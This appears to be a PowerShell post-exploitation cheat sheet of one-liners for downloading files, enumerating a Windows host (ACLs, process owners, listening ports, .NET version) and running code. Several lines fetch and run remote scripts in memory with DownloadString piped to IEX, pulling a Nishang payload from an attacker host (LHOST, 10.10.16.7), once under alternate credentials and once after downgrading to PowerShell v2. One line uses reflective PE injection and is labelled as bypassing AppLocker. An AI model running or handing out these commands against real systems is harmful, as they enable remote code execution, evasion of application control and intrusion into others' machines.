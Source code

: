 # Extract zip file
`Expand-Archive <FILE>.zip`

# Download to disk
## using .Net WebClient:
`(New-Object System.Net.WebClient).DownloadFile('<URL>', <OUTPUTPATH>)`

## using Invoke-WebRequest
`IWR '<URL>' -OutFile <FILENAME>`

# Execute powershell in memory
`(New-Object Net.WebClient).DownloadString('<URL>') | IEX`

# Get files only in a directory
`(ls -File -Recurse -Force -EA SilentlyContinue).fullname`

# Get OS architecture
`$env:processor_architecture`

# Get Process Architecture
`[Environment]::Is64BitProcess`

# Locally listening ports (TCP)
`netstat -ano -p tcp`

# Get ACL
`Get-ACL <PATH_TO_FILE> | Select -Exp AccessToString`

# get file system access
`$ErrorActionPreference = 'silentlycontinue'; ls -recurse -force | ? {$_.fullname -notmatch 'AppData|Application Data|Local Settings'} | ? {(get-acl $_.fullname ).accesstostring -like '*tushikikatomo*'} | select -expand fullname; $ErrorActionPreference = 'continue'`

# Get Process Owners
`Get-WmiObject -class win32_process | select name,@{n='owner';e={$_.getowner().user}}`

# Get .NET Version
## Paths:
`c:\windows\microsoft.net\framework`
`c:\windows\microsoft.net\framework64`
## Command:
`(Get-Item "c:\windows\microsoft.net\framework64\*\clr.dll").VersionInfo.ProductVersion`

# Reflective Execution (Can Bypass Applocker)
`Invoke-reflectivePEInjection -PEBytes ([IO.File]::ReadAllBytes('<PATH_TO_EXE>'))`

# CMD to powershell
`powershell "IEX(New-Object Net.webClient).downloadString('http://<LHOST>:<LPORT>/nishang.ps1')"`

# Start a job with alternative creds
`Start-Job -Credential $Cred -ScriptBlock {IEX(New-Object Net.webClient).downloadString('http://<LHOST>:<LPORT>/nishang.ps1')}`

# Jump to powershell v2
`Start-Process Powershell.exe -ArgumentList "-v 2 -c IEX(New-Object Net.webClient).downloadString('http://10.10.16.7/nishang.ps1')"`